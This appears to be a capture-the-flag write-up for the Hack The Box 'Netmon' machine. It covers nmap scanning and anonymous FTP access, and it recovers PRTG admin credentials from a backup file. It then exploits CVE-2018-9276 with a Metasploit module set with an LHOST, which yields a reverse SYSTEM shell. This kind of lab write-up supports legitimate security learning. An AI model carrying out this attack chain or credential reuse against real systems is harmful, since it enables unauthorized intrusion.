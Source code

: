 # Netmon      

![Netmon](./Screenshots/netmonlogo.png)

## Solution

### Scan with Nmap

Type:

```
nmap -sC -sV {target ip} -v
```

`-sC` - This flag tells Nmap to use the default set of scripts during the scan. These scripts are part of the Nmap Scripting Engine (NSE) and are used for tasks such as version detection, vulnerability detection, and more. Using -sC enhances the scan by providing additional information about the target.

`-sV` - Version detection. Nmap will try to determine the version of the services running on open ports. This is useful for identifying specific software and versions, which can help in assessing potential vulnerabilities.

`-v` - Enables verbose mode. Verbose mode provides more detailed output during the scanning process, allowing you to see more information about what Nmap is doing. This can be helpful for debugging and understanding the progress of the scan.

![nmap](./Screenshots/netmonnmap.png)
![nmap](./Screenshots/netmonnmap2.png)

Here are the descriptions of the open ports shown in the screenshots:

### **21/tcp (FTP)**
The **FTP** service is running on **Microsoft ftpd**. ****Anonymous FTP login is allowed****, anyone can connect without credentials. The directory listing shows several important folders, such as **inetpub**, **PerfLogs**, **Program Files**, and **Windows**.

### **80/tcp (HTTP)**
The web server running on this port is **Indy httpd 18.1.37.13946**, serving the **Paessler PRTG Network Monitor**. This application is commonly used for network monitoring and may have vulnerabilities worth exploring. The server is displaying a "Welcome" page, and additional HTTP methods like **GET**, **POST**, and **OPTIONS** are supported.

### **135/tcp (MSRPC)**
Microsoft Windows RPC service is open, facilitating remote procedure calls on the system.

### **139/tcp (NetBIOS-SSN)**
NetBIOS Session Service is running, used for file and printer sharing over a Windows network, often in conjunction with SMB.

### **445/tcp (Microsoft-DS)**
SMB service (Server Message Block) is running on **Microsoft Windows Server 2008 R2 - 2012**.

When I saw that http is open, I immediately pasted `http://{target ip}` into the browser.

![web](./Screenshots/netmonweb.png)

Login panel pops out.

I attempted to login with default credentials but it didn't work.

![web](./Screenshots/netmonweb2.png)

I even tried to brute-force the credentials with `BurpSUite`'s **Repeater** but it was also unsuccesfull.

### FTP

From the **Nmap** scan we know that **FPT** is open and **Anonymous login** is allowed.

Let's type:

```
ftp {target ip}
```

If it asks you about the *Name* type `Anonymous` and when it asks you about the *password*, just press `Enter`.

![FTP](./Screenshots/netmonftp.png)

We are in.

### Get the user flag

The `user` flag is in the `/Users/Public/Desktop` path, let's just `get` it.

```
get user.txt
```

![flag](./Screenshots/netmonuserflag.png)

### System Search

Since we already have `user`'s flag, we want to find out how to get `root`'s flag.

We know that **SMB** is open but we don't have access to it. I also tried using a few exploits but they didn't work.

It is obvious that the next step is to explore **PRTG Network Monitor (NETMON)** but first, we need to have access to it.

Only reasonable way to look for credentials is to search **FTP** again.

I searched for interesting files but I found nothing. Then I decided to use `Google` and I came across this article:

```
https://www.paessler.com/manuals/prtg/data_storage
```

![search](./Screenshots/netmonsearch.png)

Let's go to the `/ProgramData/Paessler/PRTG Network Monitor` path then.

We can see several interesting files.

![search](./Screenshots/netmonsearch2.png)

I've searched all of the **PRTG** files and only **PRTG Configuration.old.bak** contains what we are looking for - credentials.

```
get PRTG\ Configuration.old.bak
```

![search](./Screenshots/netmonsearch3.png)

So credentials from file are:

```
prtgadmin:PrTg@dmin2018
```

I tried to log in using them but it didn't work.

![search](./Screenshots/netmonsearch4.png)

As this machine was released in **2019** and this is backup form **2018** I decided to paste `PrTg@dmin2019` and it worked.

```
prtgadmin:PrTg@dmin2019
```

![search](./Screenshots/netmonsearch5.png)

We can see `System Administrator`'s panel.

I pasted `PRTG 18.1.37.13946` into the `Google` and found out that it is vulnerable.

I found this:

```
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-9276
```

**CVE-2018-9276**

and it says:

An issue was discovered in **PRTG Network Monitor before 18.2.39**. An attacker who has access to the **PRTG System Administrator web console with administrative privileges** can exploit an OS command injection vulnerability (both on the server and on devices) by sending malformed parameters in sensor or notification management scenarios.

Knowing that, we are going to use **Metasploit**. You can also copy this exploit:

```
https://github.com/A1vinSmith/CVE-2018-9276?tab=readme-ov-file
```

and use it as author says in `README`.

### Metasploit

Type in order:

```
msfconsole
```

```
use exploit/windows/http/prtg_authenticated_rce
```

```
set lhost {your tun0 ip as we are connected to the HTB through VPN}
```

```
set rhost {target ip}
```

```
set admin_username prtgadmin
```

```
set admin_password PrTg@dmin2019
```

```
exploit
```

![metasploit](./Screenshots/netmonmetasploit.png)

We are in and we are `nt authority\system`.

![metasploit](./Screenshots/netmonmetasploit2.png)

`nt authority\system` is **the highest privilege level** account in **Windows** systems. This user has full control over the operating system, meaning we have access to all resources and can perform any administrative operations.

### Get the root flag

`Root` flag is in the `C:\Users\Administrator\Desktop>` path.

![flag](./Screenshots/netmonrootflag.png)

### Paste the flags

![pwned](./Screenshots/netmonpwned.png)